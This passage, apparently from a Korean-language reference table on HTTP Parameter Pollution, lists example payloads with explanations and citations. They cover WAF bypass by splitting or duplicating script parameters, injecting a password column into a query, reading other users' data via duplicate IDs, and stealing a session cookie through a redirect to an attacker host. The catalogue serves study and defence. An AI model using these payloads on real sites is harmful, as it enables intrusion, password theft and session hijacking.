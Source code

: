       <td>[2], [6]</td>
    </tr>
    <tr>
      <td>WAF Bypass via Payload Splitting</td>
      <td><pre><code>?par1=&lt;script&par1=prompt.”...”> </code></pre></td>
      <td>WAF가 각 파라미터를 개별적으로 검사하는 점을 악용하여, 악성 스크립트( &lt;script prompt... >)를 두 개 이상의 파라미터로 분할하여 전송한다. 백엔드(ASP.NET 등)가 이 값들을 병합하면서 완전한 공격 구문이 실행된다. </td>
      <td>[3]</td>
    </tr>
    <tr>
      <td>WAF Bypass via Benign Parameter</td>
      <td><pre><code>?colour=blue&colour=&lt;script>...&lt;/script> </code></pre></td>
      <td>WAF는 첫 번째 정상 파라미터(blue)만 보고 요청을 통과시키지만, 실제 애플리케이션은 두 번째 악성 파라미터(&lt;script>...)를 처리하게 만들어 WAF를 우회한다. </td>
      <td>[4]</td>
    </tr>
  </tbody>
</table>

### Exfiltration
<table>
  <thead>
    <tr>
      <th>공격 이름</th>
      <th>예시</th>
      <th>설명</th>
      <th>출처</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td>Database Column Exfiltration</td>
      <td><pre><code>?department=engineering%26what%3Dpasswd</code></pre></td>
      <td>department 파라미터 값에 인코딩된 &what=passwd를 주입한다. 백엔드 서버가 이를 디코딩하면, 원래는 users만 조회하던 데이터베이스 쿼리에 passwd 컬럼이 추가되어, 응답 페이지에 사용자의 비밀번호 정보가 함께 노출(유출)된다.</td>
      <td>[6]</td>
    </tr>
    <tr>
      <td>Data Theft via Response</td>
      <td><pre><code>?id=123&id=456 </code></pre></td>
      <td>HPP를 이용해 다른 사용자의 ID로 데이터를 조회하도록 시스템을 속인 뒤, 그 결과가 HTTP 응답 본문에 포함되어 공격자에게 전송되도록 하여 데이터를 유출한다. </td>
      <td>[1]</td>
    </tr>
    <tr>
      <td>Cookie Exfiltration via Open Redirect</td>
      <td><pre><code>Location: //attacker.tld? HTTP/1.0 […] Cookie: param=value#value; Session_id=[…]</code></pre></td>
      <td>HPP를 통해 유발된 Open Redirect 취약점을 이용해, 사용자의 브라우저가 공격자의 서버로 리디렉션될 때 httpOnly 속성의 Session_id 쿠키를 탈취한다.</td>
      <td>[8]</td>
    </tr>
  </tbody>
</table>
